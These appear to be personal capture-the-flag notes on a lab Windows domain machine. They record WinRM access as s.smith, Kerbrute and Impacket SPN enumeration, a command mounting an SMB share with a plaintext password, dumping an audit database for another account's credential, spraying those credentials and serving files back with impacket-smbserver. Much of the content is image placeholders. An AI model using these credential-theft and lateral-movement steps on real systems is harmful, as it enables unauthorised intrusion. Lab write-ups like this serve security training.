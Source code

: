 ![[Pasted image 20240620173400.png]]
winrm for s.smith - pawned

![[Pasted image 20240620173714.png]]

whoami /all
![[Pasted image 20240620174703.png]]
- `CASCADE\Data Share`
- `CASCADE\Audit Share`

# Kerbrute
![[Pasted image 20240620142908.png]]

![[Pasted image 20240620143358.png]]

# Impacket-GetUserSPNs
![[Pasted image 20240620144027.png]]

# S.Smith SMB
```sh
sudo mkdir /mnt/data

sudo mount -t cifs -o 'user=s.smith,password=sT333ve2' //10.10.10.182/audit$ /mnt/audit
```

```sh
cd /mnt/audit/DB

sqlite3 Audit.db .dump
```

![[Pasted image 20240620175839.png]]

`ArkSvc:D|zC;`

Spray newly acquired credentials again.

![[Pasted image 20240620180223.png]]

```sh
sudo impacket-smbserver -smb2support test $(pwd)
```

![[Pasted image 20240620181236.png]]

`CascAudit.exe` is a .NET executable. 
Need to use a .NET compiler such as [dnspy](https://github.com/0xd4d/dnSpy/releases) to open it. 
It can be run on Linux using wine. 
